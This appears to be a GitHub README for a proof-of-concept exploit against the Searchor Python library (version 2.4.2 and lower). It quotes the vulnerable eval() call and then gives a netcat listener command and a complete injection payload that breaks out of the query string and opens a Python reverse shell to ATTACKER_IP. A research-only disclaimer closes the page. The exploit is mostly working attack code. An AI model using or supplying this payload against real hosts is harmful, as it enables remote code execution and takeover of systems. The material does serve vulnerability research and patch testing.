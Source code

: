 # POC-Searchor-2.4.2 Exploit

* eval() Exploit POC for Searchor 2.4.2 and lower (2.4.0 as well) leading to Arbitrary Code Execution
* vulnerability Reference: https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b

Vulnerable code includes eval() method: 

```python
url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
```

If user parameter `query` is not sanitized it leads to RCE.


* Exploit code for linux target

1. Prepare a listener: `nc -lvnp PORT`
2. send this as query parameter to the tested host

```

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

```

## DISCLAIMER

* this is posted for research purpose only
* use the newest Searcher version to be safe: https:/I/github.com/ArjunSharda/Searchor
* using this against other web sites is subject to criminal punishment!
